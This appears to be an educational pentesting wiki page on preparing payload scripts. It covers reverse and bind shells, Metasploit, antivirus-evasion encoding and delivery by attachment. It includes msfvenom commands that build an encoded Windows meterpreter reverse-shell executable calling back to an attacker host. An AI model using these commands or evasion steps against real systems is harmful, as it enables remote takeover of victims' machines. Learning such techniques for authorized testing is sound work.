 # Prepare the payload script to execute on the host


# 👉 Overview

---

### 👀 What ?

Preparing a payload script to execute on a host is a process used in cybersecurity to test the vulnerability of systems. Essentially, a payload script is a program that carries out malicious or harmful activities on a network after an initial code has been run. The payload script is usually embedded within benign files and is activated when the file is opened or executed.


### 🧐 Why ?

Understanding and preparing payload scripts is crucial in the field of cybersecurity. It is a method used by ethical hackers or penetration testers to identify vulnerabilities in a system and rectify them before they can be exploited by malicious hackers. By executing a payload script on a host, a cybersecurity professional can understand how an actual attack might unfold and take preventive measures.


### ⛏️ How ?

To prepare a payload script to execute on a host, first, you need to identify the type of payload you want to use; this could be a reverse shell, a bind shell, or any other type. Next, use a tool like Metasploit to generate the payload script. Once the script is generated, it needs to be embedded in a benign file or delivered to the target system in some way. After the payload script is delivered, it needs to be executed on the target host to carry out its intended function.


### ⏳ When ?

The practice of preparing and executing payload scripts on a host started with the advent of computer networks and the internet. As cybersecurity threats evolved, so did the methods to counter them. Preparing payload scripts became a common practice among penetration testers and ethical hackers in the late 1990s and early 2000s, as it provided a practical way to test the security of a system.


# ⚙️ Technical Explanations

---

Preparing a payload script involves a series of technical steps. The first is to identify the type of payload. This could be a 'reverse shell' that gives remote control of the system, a 'bind shell' that opens a command line session on the target system, or another script that performs malicious actions.

The choice of payload depends on the goal of the test. If the purpose is to gain remote access to the system, a reverse shell would be appropriate. If the objective is to execute commands directly on the host system, a bind shell might be more suitable.

Once the payload type is decided, a tool like Metasploit is used to generate the payload script. Metasploit is a popular penetration testing software that provides numerous utilities for exploit development and testing.

Creating the payload script with Metasploit involves specifying the payload type, the target system's IP address, and other necessary parameters. This step requires a good understanding of the target system's architecture and potential vulnerabilities.

After the payload script is generated, it's encoded to avoid detection by antivirus software. Encoding involves transforming the payload into a format that appears harmless to antivirus scanners, thereby increasing the chances of the payload reaching and executing on the target system.

The encoded payload script is then embedded within a benign file or delivered to the target system through other methods, such as email attachments or web downloads. The delivery method depends on the specifics of the penetration test and the target system's security measures.

Finally, the payload script is executed on the target system. This can happen automatically when the benign file is opened or manually through some command. The execution activates the payload, allowing it to perform its intended function, whether that's opening a reverse shell, executing harmful commands, or carrying out other malicious actions.

In summary, preparing a payload script for execution on a host involves identifying the payload type, generating the payload script with a tool like Metasploit, encoding the script to evade antivirus detection, delivering the script to the target system, and executing the script on the system to carry out its intended function. Each of these steps requires a deep understanding of both the host's system architecture and potential vulnerabilities, and the various tools and techniques used in penetration testing.

Let's consider a scenario where a penetration tester wants to test a Windows system's vulnerability by using a reverse shell payload. A reverse shell payload would give the tester remote control over the system if successfully executed.

Step 1: Identifying the Payload Type

- In this case, the payload type is a reverse shell.

Step 2: Generating the Payload Script with Metasploit

- Metasploit can be used to generate a reverse shell payload script. The command to do this might look something like this:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port-f exe payload.exe

```

- In this command, `windows/meterpreter/reverse_tcp` is the payload type, `LHOST` is the IP address of the system running Metasploit (your system), and `LPORT` is the port on your system that Metasploit will listen to.

Step 3: Encoding the Payload Script

- To help avoid antivirus detection, the payload script is encoded. The encoding can be done within the `msfvenom` command by adding the `e x86/shikata_ga_nai` option, which specifies an encoder to use.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP AddressLPORT=<Your Port-f exe -e x86/shikata_ga_nai payload.exe

```

Step 4: Delivering the Payload Script

- The payload script (`payload.exe`) is then delivered to the target Windows system. This could be done through an email attachment, a download link, or other means depending on the specifics of the penetration test.

Step 5: Executing the Payload Script

- Upon opening the `payload.exe` file, the payload script is executed on the target system. This would open a reverse shell that allows remote control of the system.

Remember, this is a simplified example for illustrative purposes and actual penetration testing scenarios can be much more complex and require a deep understanding of the systems involved and the tools used.
